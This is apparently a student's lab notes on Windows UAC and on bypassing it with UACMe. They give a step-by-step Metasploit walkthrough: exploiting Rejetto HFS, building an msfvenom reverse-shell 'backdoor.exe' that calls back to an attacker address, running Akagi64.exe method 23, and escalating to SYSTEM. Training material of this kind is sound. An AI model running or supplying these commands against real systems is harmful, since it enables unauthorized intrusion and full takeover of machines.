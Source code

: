 Bypassing UAC With UACMe

#### UAC
- User Account Contorl is a Windows Security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
- UAC is used to ensure that changes to the operating system require approval from the adminitrator or a user account that is part of the local adminitrators group.
- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt,whereas a privileged user will be prompted with a consent prompt.
- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.
#### Bypassing UAC
- In order to successfully bypass UAC,we will need to have access to a user account that is a part of the local administrators group on the Windows target system.
- UAC allows a program to be executed with administrative privileges,consequently prompting the user for confirmation.
- There are multiple tools and technique that can be used to bypass UAC,however,the tool and technique used will depend on the version of Windows running on the target system.

#### Bypassing UAC with UACMe
- UACMe is an open source,robust privilge escalation tool developed by @hfire0x.It can be used to bypass Windows UAC by leveraging various techniques
- - Github: https://github.com/hfiref0x/UACME
- The UACMe github repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
- It allows attackers to execute malicious payloads on a windows target with administrative/elevated privilges by abuisng the inbuit windows AuteElevated tool.
- The UACMe github repository has more than 60 exploits that can be used to bypass UAC  depending on the version of Windows running on the target.

#### in commnad prompt cmd
- net  users [ this will list all the users]
- net localgroup administrator [ this will list all the local members group of administrator ]
#### managing uac control
- in windows search for uac
- set the security level from GUI
#### Exploiting
- nmap 10.2.22.220 [ this will list all the services]
- service postgresql start
- msfconsole
- setg RHOSTS 10.2.22.220
- search rejetto [ as rejetto is running on the server]
- use exploit/windows/http/rejetto_hfs_exec 
- set everything requires
- this will give meterpreter session
- sysinfo [ for basic information ]
- pgrep explorer  [ for migrate to explorer session this will give us id ]
-  migrate 2448 [ 2448 found from previous command id and this will give us x64 bit windows ,we can check it again using sysinfo] 
- getuid [ for checking user ]
- getrivs [ trying to get privileges the current user have]
- shell [ for getting shell ]
- net users [ list all users ]
- net localgroup administrators [ this will show members of administrative group ]
- As our current user is part of administrative group we can use UAC for privilege escalation
- now back to meterpreter sessions
- now we need to create msfvenom paylaods so move into new tab
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT= 1234 -f exe > 'backdoor.exe'
- now open msfconsole in new tab
- use multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST 10.10.5.2
- set LPORT 1234
- now back to previous meterpeter sessions
- cd C:\\ [move to root folder\
- mkdir Temp [ create Temp directory ]
- "uplaod backdoor.exe  ."[ here backdoor.exe is msfvenom payload]
- "upload /root/Desktop/tools/UACME/Akagi64.exe ."[ this will upload  uacme binaries into temp folder ]
- shell [ get a shell ]
- Akagi64.exe 23 C:\Temp\backdoor.exe [ here 23 is method from github module, we need to give full path for backdoor.exe ]
- this will give us new meterpreter session in multi/handler
- getprivs  [ this will give us all the privileges it has ]
- ps [ list all the processes ]
- migrate 688 [ here 688 is process number,as we are privileged we can migrate to any process ]
- getuid [ this will show us NT AUTHORITY\SYSTEM ]
  
